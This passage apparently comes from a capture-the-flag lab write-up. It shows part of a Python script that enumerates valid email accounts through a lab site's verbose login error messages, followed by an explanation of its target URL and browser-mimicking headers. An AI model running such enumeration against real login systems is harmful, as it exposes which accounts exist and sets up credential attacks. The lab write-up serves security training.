 ```python

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)
```

**Breakdown of the script.**

**Imports**:

- **requests**: A Python library for making HTTP requests. This is used to interact with the web server by sending POST requests to the target endpoint.
    
    ```python
    import requests
    ```
    

**Setup**:

- **url**: The script targets the endpoint handling the login functionality of the application.
    
    ```python
    url = 'http://enum.thm/labs/verbose_login/functions.php'
    ```
    
- **headers**: A collection of HTTP headers is defined to mimic a typical browser request, ensuring the requests appear legitimate.
    
    ```python
    headers = {
          'Host': 'enum.thm',
          'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
          'Accept': 'application/json, text/javascript, */*; q=0.01',
          'Accept-Language': 'en-US,en;q=0.5',
          'Accept-Encoding': 'gzip, deflate',
          'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
          'X-Requested-With': 'XMLHttpRequest',
          'Origin': 'http://enum.thm',
          'Connection': 'close',
          'Referer': 'http://enum.thm/labs/verbose_login/',
      }
    ```
    